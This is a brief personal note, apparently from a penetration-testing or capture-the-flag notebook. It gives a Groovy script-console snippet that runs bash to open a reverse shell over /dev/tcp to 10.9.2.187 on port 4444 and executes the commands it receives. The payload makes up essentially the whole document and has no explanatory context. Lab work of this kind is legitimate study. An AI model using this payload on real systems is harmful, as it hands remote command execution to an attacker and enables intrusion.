

# Internal
24 February 2022
03:43 PM

# *<u>In script console</u>*

r = Runtime.getRuntime()

p = r.exec(\["/bin/bash","-c","exec 5\<\>/dev/tcp/10.9.2.187/4444;cat
\<&5 \| while read line; do \\\$line 2\>&5 \>&5; done"\] as String\[\])

p.waitFor()

 

